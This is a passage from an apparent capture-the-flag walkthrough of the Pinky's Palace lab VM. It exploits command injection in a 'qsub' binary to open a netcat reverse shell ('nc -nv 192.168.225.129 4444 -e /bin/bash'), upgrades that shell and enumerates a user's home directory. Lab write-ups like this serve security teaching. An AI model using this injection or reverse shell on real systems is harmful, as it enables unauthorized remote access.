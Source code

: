 Now to send a message to pinky.

```
stefano@Pinkys-Palace://home/stefano/tools$ ./qsub Hello from stefano!
[+] Input Password: xterm-256color
[+] Welcome to Question Submit!
```

## Qsub Command Injection as Pinky

Based on the `strings` contents of `qsub` and it's use of `/bin/echo`, it appears we can inject arbitrary bash commands in our message to pinky.
```
/bin/echo %s >> /home/pinky/messages/stefano_msg.txt
```

By substituting the `%s` with `&& nc -nv 192.168.225.129 4444 -e /bin/bash`, a reverse shell can be created into Pinky's account.
```
/bin/echo Test && nc -nv 192.168.225.129 4444 -e /bin/bash >> /home/pinky/messages/stefano_msg.txt
```

Setup the netcat listner on my Kali box:
```
root@kali:~/Downloads# nc -nlvp 4444
listening on [any] 4444 ...
```

Trigger the reverse shell using qsub and wrap the single quotes otherwise the `&&` is going to create problems. 
```
stefano@Pinkys-Palace://home/stefano/tools$ ./qsub 'Test && nc -nv 192.168.225.129 4444 -e /bin/bash'
[+] Input Password: xterm-256color
Test
(UNKNOWN) [192.168.225.129] 4444 (?) open
```

And we have a reverse shell for the user pinky!
```
connect to [192.168.225.129] from (UNKNOWN) [192.168.225.130] 57460
id
uid=1000(pinky) gid=1002(stefano) groups=1002(stefano)
```

## Pinky user access Enumeration

First things first, need to fix this shell and take a look at the home directory for pinky.
```
python -c "import pty; pty.spawn('/bin/bash')"
pinky@Pinkys-Palace://home/stefano/tools$ cd /home/pinky
pinky@Pinkys-Palace://home/pinky$ ls -la
drwxr-x--- 3 pinky pinky    4096 Apr 22 12:12 .
drwxr-xr-x 5 root  root     4096 Mar 17 15:20 ..
-rw------- 1 pinky pinky      66 Mar 17 21:27 .bash_history
-rw-r--r-- 1 pinky pinky     220 Mar 17 04:27 .bash_logout
-rw-r--r-- 1 pinky pinky    3526 Mar 17 04:27 .bashrc
drwxr-xr-x 2 pinky pinky    4096 Mar 17 04:01 messages
-rw-r--r-- 1 pinky pinky     675 Mar 17 04:27 .profile
pinky@Pinkys-Palace:/home/pinky$ cd messages
pinky@Pinkys-Palace:/home/pinky/messages$ ls
stefano_msg.txt
pinky@Pinkys-Palace:/home/pinky/messages$ cat stefano_msg.txt
Hi it's Stefano!
Testing!
Test!
Hello
Test
```